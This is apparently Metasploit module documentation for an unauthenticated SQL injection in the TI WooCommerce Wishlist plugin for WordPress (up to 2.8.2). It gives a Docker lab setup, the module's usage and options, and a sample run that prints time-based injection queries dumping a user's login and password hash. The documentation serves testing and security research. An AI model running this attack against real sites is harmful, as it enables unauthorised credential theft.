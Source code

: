 ## Vulnerable Application

The vulnerability affects the **TI WooCommerce Wishlist** plugin for WordPress,
versions **up to 2.8.2**, allowing **unauthenticated SQL injection** via specific parameters.
The **WooCommerce** plugin is also required for the setup.

### Pre-requisites:
- **Docker** and **Docker Compose** installed.

### Setup Instructions:

1. **Download the Docker Compose file**:
   Save the following content in a `docker-compose.yml` file:

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Start the Docker environment**:
   Run the following command in the directory where you saved the `docker-compose.yml` file:

```bash
docker-compose up -d
```

3. **Install WooCommerce and TI WooCommerce Wishlist Plugins**:
   - Download the WooCommerce and TI WooCommerce Wishlist plugins:

```bash
wget https://downloads.wordpress.org/plugin/woocommerce.9.3.3.zip
wget https://downloads.wordpress.org/plugin/ti-woocommerce-wishlist.2.8.2.zip
```

   - Install the plugins by copying them into your WordPress container:

```bash
unzip woocommerce.9.3.3.zip
docker cp woocommerce wordpress:/var/www/html/wp-content/plugins/

unzip ti-woocommerce-wishlist.2.8.2.zip
docker cp ti-woocommerce-wishlist wordpress:/var/www/html/wp-content/plugins/
```

4. **Activate WooCommerce and TI WooCommerce Wishlist Plugins**:
   - Navigate to `http://localhost:5555/wp-admin` in your browser, and activate both
   **WooCommerce** and **TI WooCommerce Wishlist** plugins.
   - Complete the WooCommerce setup wizard to ensure the plugin is properly
   initialized, including configuring the site through the "Customize Site" option.

## Verification Steps

1. **Set up WordPress** with the vulnerable **TI WooCommerce Wishlist 2.8.2** and **WooCommerce** plugins.
2. **Start Metasploit** using `msfconsole`.
3. Use the appropriate module for the vulnerability:

```bash
   use auxiliary/scanner/http/wp_ti_woocommerce_wishlist_sqli
```

4. Set the target's IP and URI:

```bash
   set RHOST <target_ip>
   set TARGETURI /
```

5. **Run the module**:

```bash
   run
```

6. **Verify the SQL Injection**:
   The SQL injection will attempt to retrieve or manipulate data from the WordPress database through the `order` parameter.

## Options

### PRODUCT_ID_MIN and PRODUCT_ID_MAX
These options specify the range of `product_id` values used to bruteforce the product
during the SQL injection attack.
The default range is from 1 to 100, but this can be adjusted based on your target.

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **TI WooCommerce Wishlist 2.8.2** with **WooCommerce** in a Docker environment.

### Step-by-step Scenario

```bash
msf6 auxiliary(scanner/http/wp_ti_woocommerce_wishlist_sqli) > run http://127.0.0.1:5555

[*] Testing Product IDs from 0 to 100, please wait...
[+] Share key found: e93cca
[*] Performing SQL Injection using share key: e93cca
[*] SQL Injection successful, retrieving user credentials...
[*] {SQLi} Executing (SELECT 4 FROM information_schema.tables WHERE table_name = 'wp_users')
[*] {SQLi} Encoded to (SELECT 4 FROM information_schema.tables WHERE table_name = 0x77705f7573657273)
[*] {SQLi} Time-based injection: expecting output of length 1
[*] {WPSQLi} Retrieved default table prefix: 'wp_'
[*] {SQLi} Executing (select group_concat(CvjX) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) CvjX from wp_users limit 1) cUla)
[*] {SQLi} Encoded to (select group_concat(CvjX) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0x2f,0)),ifnull(user_pass,repeat(0x8c,0))) as binary) CvjX from wp_users limit 1) cUla)
[*] {SQLi} Time-based injection: expecting output of length 44
[*] {WPSQLi} Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240930123016_default_127.0.0.1_wordpress.users_970346.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
